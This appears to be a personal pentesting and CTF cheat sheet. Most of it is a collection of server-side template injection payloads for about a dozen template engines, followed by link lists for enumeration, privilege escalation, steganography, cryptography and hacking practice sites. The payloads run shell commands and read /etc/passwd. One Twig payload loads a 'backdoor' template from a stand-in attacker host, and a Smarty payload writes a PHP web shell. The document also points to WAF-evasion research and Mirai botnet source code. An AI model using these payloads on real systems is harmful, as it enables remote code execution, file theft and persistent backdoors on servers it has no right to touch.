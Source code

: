 (insert good title here)
========================

-  `Cheatsheets <#Cheatsheets>`__
-  `Enumeration <#Enumeration>`__
-  `Privelege Escalation <#Privilege-Escalation>`__
-  `Steganography <#Steganography>`__
-  `Cryptography <#Cryptography>`__
-  `Reverse Engineering <#Reverse-Engineering>`__
-  `Wordlists <#Wordlists>`__
-  `Learn To <#Learn-To>`__

--------------

Cheatsheets
-----------

Server Side Template Injection (SSTI)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Polyglot:
'''''''''

::

    ${{<%[%'"}}%\

FreeMarker (Java):
''''''''''''''''''

::

    ${7*7} = 49
    <#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }

(Java):
'''''''

::

    ${7*7}
    ${{7*7}}
    ${class.getClassLoader()}
    ${class.getResource("").getPath()}
    ${class.getResource("../../../../../index.htm").getContent()}
    ${T(java.lang.System).getenv()}
    ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}

Twig (PHP):
'''''''''''

::

    {{7*7}}
    {{7*'7'}}
    {{dump(app)}}
    {{app.request.server.all|join(',')}}
    "{{'/etc/passwd'|file_excerpt(1,30)}}"@
    {{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

Smarty (PHP):
'''''''''''''

::

    {$smarty.version}
    {php}echo `id`;{/php}
    {Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

Handlebars (NodeJS):
''''''''''''''''''''

::

    wrtz{{#with "s" as |string|}}
    {{#with "e"}}
    {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
    {{#with string.split as |codelist|}}
    {{this.pop}}
    {{this.push "return require('child_process').exec('whoami');"}}
    {{this.pop}}
    {{#each conslist}}
    {{#with (string.sub.apply 0 codelist)}}
    {{this}}
    {{/with}}
    {{/each}}
    {{/with}}
    {{/with}}
    {{/with}}
    {{/with}}

Velocity:
'''''''''

::

    #set($str=$class.inspect("java.lang.String").type)
    #set($chr=$class.inspect("java.lang.Character").type)
    #set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
    $ex.waitFor()
    #set($out=$ex.getInputStream())
    #foreach($i in [1..$out.available()])
    $str.valueOf($chr.toChars($out.read()))
    #end

ERB (Ruby):
'''''''''''

::

    <%= system("whoami") %>
    <%= Dir.entries('/') %>
    <%= File.open('/example/arbitrary-file').read %>

Django Tricks (Python):
'''''''''''''''''''''''

| {% debug %}
| {{settings.SECRET\_KEY}}

::

    #Tornado (Python):
    {% import foobar %} = Error
    {% import os %}{{os.system('whoami')}}

Mojolicious (Perl):
'''''''''''''''''''

::

    <%= perl code %>
    <% perl code %>

Flask/Jinja2: Identify:
'''''''''''''''''''''''

::

    {{ '7'*7 }}
    {{ [].class.base.subclasses() }} # get all classes
    {{''.class.mro()[1].subclasses()}}
    {%for c in [1,2,3] %}{{c,c,c}}{% endfor %}

Flask/Jinja2:
'''''''''''''

::

    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

Jade:
'''''

::

    #{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

Razor (.Net):
'''''''''''''

::

    @(1+2)
    @{// C# code}

If you need to evade WAF check this site out:
https://gusralph.info/jinja2-ssti-research/

| `Source <https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68>`__
| `More Useful
Information <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection>`__
| `Even
More <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig>`__

Enumeration
-----------

https://github.com/darkoperator/dnsrecon

Privilege Escalation
--------------------

Windows
~~~~~~~

Living off the Land
'''''''''''''''''''

https://lolbas-project.github.io/

Linux
~~~~~

Living off the Land
'''''''''''''''''''

https://gtfobins.github.io/

Steganography
-------------

| https://29a.ch/photo-forensics/#forensic-magnifier
| https://futureboy.us/stegano/decinput.html
| https://github.com/DominicBreuker/stego-toolkit
| https://www.irongeek.com/i.php?page=security/unicode-steganography-homoglyph-encoder
| https://stegonline.georgeom.net/upload
| https://lukeslytalker.pythonanywhere.com/

Cryptography
------------

| https://gchq.github.io/CyberChef/cyberchef.htm
| https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
| http://fbcs.bplaced.net/multi_encoder_decoder.html
| https://quipqiup.com/
| https://mothereff.in/bacon
| http://www.spammimic.com/
| https://crypto.interactive-maths.com/affine-cipher.html

Reverse Engineering
-------------------

https://onlinedisassembler.com/static/home/index.html

Wordlists
---------

https://wiki.skullsecurity.org/Passwords

Learn To
--------

Hack
~~~~

| https://app.hackthebox.eu/dashboard
| https://academy.hackthebox.eu/dashboard
| https://www.hackthissite.org/
| https://www.hacksplaining.com/
| https://www.hacking-lab.com/index.html
| https://cryptopals.com/
| https://ocw.cs.pub.ro/courses/cns
| https://www.pentesteracademy.com/
| https://tryhackme.com/
| https://learn.hacktify.in/collections?category=courses&page=1
| https://crackmes.one/

Code
~~~~

| http://www.codecraftgame.org/
| https://codingbat.com/
| http://www.programmr.com/zone/cpp
| http://www.codecademy.com/dashboard

Misc (yet to sort)
------------------

| https://www.semanticscholar.org/paper/Text-Steganographic-Approaches%3A-A-Comparison-Agarwal/5e9e19106b8deff39118530811672d7b0fb83670?p2df
| https://github.com/jgamblin/Mirai-Source-Code
